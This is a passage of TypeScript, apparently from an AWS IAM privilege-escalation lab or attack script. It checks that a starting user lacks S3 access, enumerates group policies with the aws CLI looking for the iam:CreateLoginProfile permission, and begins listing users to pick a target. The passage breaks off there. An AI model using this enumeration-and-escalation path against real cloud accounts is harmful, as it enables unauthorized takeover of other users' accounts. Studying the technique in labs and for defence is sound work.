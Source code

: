 ```typescript
        console.error("ERROR: Initial user should NOT have S3 access.");
        process.exit(1); // Exit if S3 access is unexpectedly granted
    } catch (error) {
        if (error.message.includes('AccessDenied')) {
            console.log("Confirmed: Initial user has no S3 access (as expected).");
        } else {
            console.error("An unexpected error occurred:", error);
            process.exit(1);
        }
    }
}


// Enumerate permissions and identify the vulnerability.
async function enumeratePermissions() {
    const { execSync } = require('child_process');

    try {
        // Get groups the user belongs to
        const groups = JSON.parse(execSync('aws iam list-groups --profile createlogin').toString());
        console.log("User Groups:", groups);

        // Iterate through each group
        for (const group of groups.Groups) {
            const groupName = group.GroupName;

            // List policies attached to the group
            const policies = JSON.parse(execSync(`aws iam list-group-policies --group-name ${groupName} --profile createlogin`).toString());
            console.log(`Policies for group ${groupName}:`, policies);

            // Iterate through each policy
            for (const policyName of policies.PolicyNames) {
                // Get the policy document
                const policyDetails = JSON.parse(execSync(`aws iam get-group-policy --group-name ${groupName} --policy-name ${policyName} --profile createlogin`).toString());
                console.log(`Policy Document for ${policyName}:`, policyDetails);

                // Check for the iam:CreateLoginProfile permission
                if (policyDetails.PolicyDocument.Statement.some((statement: any) =>
                    statement.Effect === 'Allow' && statement.Action.includes('iam:CreateLoginProfile')
                )) {
                    console.log(`VULNERABILITY FOUND: User has iam:CreateLoginProfile permission in group ${groupName}, policy ${policyName}`);
                    return policyDetails; // Return the policy details
                }
            }
        }

        console.error("Vulnerability (iam:CreateLoginProfile) NOT found.");
        process.exit(1);

    } catch (error) {
        console.error("Error during permission enumeration:", error);
        process.exit(1);
    }
}

// List users to find the target user.
async function listUsers() {
    const { execSync } = require('child_process');
```